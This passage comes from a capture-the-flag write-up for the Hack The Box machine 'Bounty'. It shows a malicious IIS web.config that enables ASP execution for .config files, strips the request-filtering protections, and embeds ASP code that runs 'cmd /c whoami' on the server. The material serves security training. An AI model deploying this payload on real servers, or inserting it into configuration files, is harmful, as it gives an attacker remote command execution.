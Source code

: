 ```xml
-->
```

![](/assets/img/htb/machines/windows/easy/bounty/3.png)

## Exploitation

If we replace the content of `web.config` by the following:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />        
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
Response.write("<!-"&"-")
%>
-->
```

We get the result of the `whoami` command:

![](/assets/img/htb/machines/windows/easy/bounty/merlin.png)
